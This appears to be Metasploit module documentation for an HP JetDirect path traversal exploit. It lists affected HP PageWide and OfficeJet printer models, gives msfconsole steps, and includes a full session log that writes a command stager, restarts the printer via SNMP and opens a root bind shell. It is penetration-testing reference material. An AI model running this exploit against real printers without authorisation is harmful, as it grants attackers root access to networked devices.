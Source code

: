 ## Vulnerable Devices

  Impacted printers have a firmware version below 1708D.

  Product Name                             | Model
  ---------------------------------------- | -------------------------------
  HP PageWide Managed MFP P57750dw         | J9V82A, J9V82B, J9V82C, J9V82D
  HP PageWide Managed P55250dw             | J6U55A, J6U55B, J6U55C, J6U55D
  HP PageWide Pro MFP 577z                 | K9Z76A, K9Z76D
  HP PageWide Pro 552dw                    | D3Q17A, D3Q17C, D3Q17D
  HP PageWide Pro MFP 577dw                | D3Q21A, D3Q21C, D3Q21D
  HP PageWide Pro MFP 477dw                | D3Q20A, D3Q20B, D3Q20C, D3Q20D
  HP PageWide Pro  452dw                   | D3Q16A, D3Q16B, D3Q16C, D3Q16D
  HP PageWide Pro MFP 477dn                | D3Q19A, D3Q19D
  HP PageWide Pro  452dn                   | D3Q15A, D3Q15B, D3Q15D
  HP PageWide MFP 377dw                    | J9V80A, J9V80B
  HP PageWide 352dw                        | J6U57B
  HP OfficeJet Pro 8730 All-in-One Printer | D9L20A
  HP OfficeJet Pro 8740 All-in-One Printer | D9L21A
  HP OfficeJet Pro 8210 Printer            | D9L63A, D9L64A
  HP OfficeJet Pro 8216 Printer            | T0G70A
  HP OfficeJet Pro 8218 Printer            | J3P68A

## Verification Steps

  1. Start msfconsole
  2. Do: `use exploit/linux/misc/hp_jetdirect_path_traversal`
  3. Do: `set rhost <hostname>`
  4. Do: `exploit`
  5. You should get a shell.

## Scenarios

### HP OfficeJet Pro 8210 Printer

  The following demonstrates the exploit against a vulnerable printer model.
  When the user is finished with the command shell session, they press control-c and
  respond yes to abort the session. This action sends the `CommandShellCleanupCommand`
  of the `cmd/unix/bind_busybox_telnetd` payload to the server in order to kill
  telnetd that was used to get the command shell.

  ```
  msf > use exploit/linux/misc/hp_jetdirect_path_traversal
  msf exploit(linux/misc/hp_jetdirect_path_traversal) > set rhost 192.168.1.107
  rhost => 192.168.1.107
  msf exploit(linux/misc/hp_jetdirect_path_traversal) > exploit

  [*] 192.168.1.107:9100 - Exploiting...
  [*] Started bind handler
  [*] 192.168.1.107:9100 - Connecting to port 9100...
  [*] 192.168.1.107:9100 - Attempting to write command stager...
  [+] 192.168.1.107:9100 - Successfully wrote command stager to 0:/../../rw/var/etc/profile.d/dLDZtDsh.sh
  [*] 192.168.1.107:161 - Connecting to SNMP port 161...
  [*] 192.168.1.107:161 - Initial value of prtGeneralReset OID 1.3.6.1.2.1.43.5.1.1.3.1 => 3
  [*] 192.168.1.107:161 - Attempting to restart printer via SNMP...
  [*] 192.168.1.107:161 - Set prtGeneralReset OID 1.3.6.1.2.1.43.5.1.1.3.1 => 4
  [*] 192.168.1.107:161 - Current value of prtGeneralReset OID 1.3.6.1.2.1.43.5.1.1.3.1 => 3
  [*] 192.168.1.107:161 - Printer restarting...
  [*] Command shell session 1 opened (192.168.1.101:38141 -> 192.168.1.107:4444) at 2017-12-31 21:09:40 -0600


  [root@HPC2A3FB ]# id
  id
  uid=0(root) gid=0(root)
  [root@HPC2A3FB ]# uname -a
  uname -a
  Linux HPC2A3FB 3.14.32 #001.1614A Wed Mar 30 16:58:30 PDT 2016 armv7l GNU/Linux
  [root@HPC2A3FB ]# ^C
  Abort session 1? [y/N]  y

  [*] 192.168.1.107 - Command shell session 1 closed.  Reason: User exit
  msf exploit(linux/misc/hp_jetdirect_path_traversal) > 
  ```

  ## Notes

  The shell cleanup command should result in the payload automatically terminating
  the telnetd service as the session completes. However, intermittent behavior was
  observed and the source has not been identified. When closing a session please
  verify, via a port scan or other desired method, that the port is no longer open.
  If the port remains open, then the unauthenticated telnetd service is still running.
  Establish a connection to the unauthenticated telnetd service and manually terminate
  the process (`pkill telnetd`) to avoid leaving the host more insecure.

